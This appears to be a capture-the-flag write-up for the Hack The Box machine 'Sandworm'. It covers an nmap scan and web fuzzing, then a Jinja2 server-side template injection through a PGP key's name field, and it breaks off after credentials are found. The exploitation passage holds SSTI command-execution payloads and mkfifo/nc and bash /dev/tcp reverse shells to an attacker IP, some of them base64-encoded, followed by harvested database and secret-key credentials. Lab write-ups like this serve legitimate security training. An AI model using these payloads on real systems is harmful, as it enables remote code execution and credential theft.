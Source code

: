 # #1 Introduction
<img width="692" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/d90f6781-091a-411d-857d-83aac3e84515">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx sandworm.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- sandworm.htb
```

we got these open ports
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 211ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 81ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 55ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 73ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 78ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 71ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 110ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 89ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 110ms]


.gpg
.asc
.sig
.key



https://www.wired.co.uk/article/efail-pgp-vulnerability-outlook-thunderbird-smime

https://efail.de/

we can use a ssti (sever side template injection) by using the RealName of the public key generated and verifying signature of message\
by using {{ 7 * 7 }} for example, we can see that the code is executed cause we have a web template engine named jinja2 (in python)\

So to get a reverse shell, we can use this crafted payload:

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('which id').read() }}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f \
en base64 \
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuNTYgNjY2NiA+L3RtcC9mCg== \


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41Ni82NjY2IDA+JjEiCg==" | base64 -d | bash').read() }}

we are now atlas\
in app.py file, we found a passphrase : $M1DGu4rD$

in the __init__.py file, we found the sql credentials : \

app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21' \
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'

